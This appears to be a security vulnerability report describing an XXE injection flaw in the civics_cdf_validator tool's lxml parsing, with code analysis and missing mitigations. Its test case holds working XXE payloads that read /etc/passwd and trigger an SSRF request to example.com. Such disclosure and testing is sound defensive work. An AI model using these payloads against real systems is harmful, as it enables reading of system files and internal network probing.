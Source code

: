 - Vulnerability Name: XML External Entity (XXE) Injection
- Description:
    1. An attacker crafts a malicious XML file.
    2. This malicious XML file contains an XML External Entity (XXE) payload.
    3. A user is tricked or unknowingly validates this malicious XML file using `civics_cdf_validator` by providing the malicious XML file path to the `validate` command.
    4. The `civics_cdf_validator` script uses the `lxml` library to parse the XML file.
    5. If `lxml` is not configured to disable external entity processing, it attempts to resolve and process the external entity defined in the malicious XML.
    6. This allows the attacker to exploit the XXE vulnerability to:
        - Read local files on the system where `civics_cdf_validator` is executed, by referencing local file paths in the XXE payload.
        - Perform Server-Side Request Forgery (SSRF) by making the server initiate requests to other servers, including internal ones, if the XXE payload references external URLs.
- Impact:
    - Confidentiality: High. An attacker can read sensitive local files from the system running `civics_cdf_validator`, potentially exposing configuration files, source code, or data.
    - Security: Medium. In case of SSRF, an attacker could potentially probe internal network resources or cause other security impacts depending on the internal services and how they react to requests from the server running `civics_cdf_validator`.
- Vulnerability Rank: High
- Currently implemented mitigations:
    - There are no mitigations implemented in the provided project files to prevent XXE vulnerabilities. The code uses `lxml.etree.parse` without any options to disable external entity processing.
- Missing mitigations:
    - The project is missing explicit mitigations to disable XML External Entity (XXE) processing in the `lxml` library.
    - Mitigation should be implemented by configuring the `lxml` parser to disable `resolve_entities`. This can be done when creating an `etree.XMLParser` instance and passing it to the `etree.parse()` function.
- Preconditions:
    - An attacker needs to provide a malicious XML file to a user.
    - The user must execute `civics_cdf_validator validate` command and provide the path to the malicious XML file as `election_files` argument.
    - The user must have network connectivity if the attacker intends to exploit SSRF.
- Source code analysis:
    - The vulnerability exists because the project uses the `lxml` library to parse XML files without explicitly disabling external entity processing.
    - In `/code/base.py` and `/code/validator.py`, the `etree.parse()` function is called to parse both schema files and election files:
        - `/code/base.py`:
          ```python
          from lxml import etree
          ...
          class RulesRegistry(SchemaHandler):
              ...
              def check_rules(self):
                  """Checks all rules."""
                  try:
                      self.schema_tree = etree.parse(self.schema_file)
                      self.election_tree = etree.parse(self.election_file)
                  except etree.LxmlError as e:
                      ...
          ```
        - `/code/validator.py`:
          ```python
          from lxml import etree
          ...
          def main():
              ...
              elif options.cmd == "validate":
                  ...
                  options.xsd = open(options.xsd, "r")
                  validation_results = feed_validation(options)
                  ...
          @exec_profiling
          def feed_validation(options, ocd_id_list=None):
              ...
              registry = base.RulesRegistry(
                  election_file=election_file,
                  schema_file=options.xsd,
                  ...
              )
              registry.check_rules()
              ...
          ```
    - The `etree.parse()` calls in `RulesRegistry.check_rules()` are vulnerable because they do not specify an `XMLParser` instance with `resolve_entities=False`. This default behavior of `lxml` allows external entities to be resolved and processed, leading to the XXE vulnerability.
- Security test case:
    1. Create a malicious XML file named `malicious.xml` with the following content to test local file access (e.g., `/etc/passwd` on Linux systems):
        ```xml
        <?xml version="1.0"?>
        <!DOCTYPE data [
          <!ELEMENT data ANY>
          <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
        <data>
          <content>&xxe;</content>
        </data>
        ```
    2. Create a dummy XSD file named `dummy_spec.xsd` (can be empty or a copy of any XSD from the project if available, e.g., `civics_cdf_spec.xsd`):
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema" elementFormDefault="qualified"
        attributeFormDefault="unqualified"></xs:schema>
        ```
    3. Run the `civics_cdf_validator validate` command with the malicious XML file and the dummy XSD:
        ```bash
        civics_cdf_validator validate malicious.xml --xsd dummy_spec.xsd
        ```
    4. Examine the output. If the `/etc/passwd` file content is printed in the output or if an error message related to file access is observed, it confirms that the XXE vulnerability is present. For verbose output use `-v` flag:
        ```bash
        civics_cdf_validator validate malicious.xml --xsd dummy_spec.xsd -v
        ```
    5. For SSRF test case, modify the `malicious.xml` to:
        ```xml
        <?xml version="1.0"?>
        <!DOCTYPE data [
          <!ELEMENT data ANY>
          <!ENTITY xxe SYSTEM "http://example.com">
        ]>
        <data>
          <content>&xxe;</content>
        </data>
        ```
    6. Run the validator again:
        ```bash
        civics_cdf_validator validate malicious.xml --xsd dummy_spec.xsd -v
        ```
    7. Use network monitoring tools (like `tcpdump` or `Wireshark`) on the machine running `civics_cdf_validator` to check if there is an outgoing HTTP request to `example.com`. If a request is observed, it confirms the SSRF vulnerability.